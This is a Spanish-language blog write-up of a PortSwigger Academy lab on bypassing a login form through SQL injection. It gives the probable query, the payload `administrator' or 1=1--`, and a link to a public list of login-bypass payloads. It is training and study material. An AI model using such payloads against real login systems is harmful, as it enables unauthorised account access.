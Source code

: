 +++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 2"
date = "2021-11-02"
description = "Lab: SQL injection vulnerability allowing login bypass"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "headlab2.png"
+++

# Lab: SQL injection vulnerability allowing login bypass

En este laboratorio se pretende explotar un SQL Injection, esta vez es un inicio de sesion, y se intentara explotar como en el laboratorio 1 en el cual se tiene que tratar de hacer un bypass para que el sistema no valide el resto que seria la contrasena. La consulta que hara seguramente sera:

```sql
SELECT * FROM users WHERE username = 'usuario' AND password = 'contrasena'
```

## Reconocimiento

Se tratara de hacer que el sistema ya no invalide la contrasena que es enviada en la peticion, todo esto comentando lo que le sigue, de esta manera: 

```sql
SELECT * FROM users WHERE username = 'usuario'--' AND password = 'contrasena'
```
De esta manera solo valida al usuario y la contrasena se mantiene comentada.

## Explotacion

En este caso hay que hacerse con el usuario `administrator` del sistema, asi que se procede a realizar la siguiente inyeccion:

`administrator' or 1=1--`

![Payload inyectado en usuario](payload.png)

que quedaria asi al ejecutar la consulta:

```sql
SELECT * FROM users WHERE username = 'administrator' or 1=1--' AND password = 'contrasena'
```
Finalmente hemos resuelto el lab:

![Login Bypass](resuelto.png)

Tambien hubiera sido posible utilizar una <cite>lista[^1]</cite> para realizar un ataque con intruder pero esta vez no fue necesario ya que el bypass es basico, pero se podria intentar.

[^1]: [Lista](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/SQL%20Injection/Intruder/Auth_Bypass2.txt) de payloads bypass login 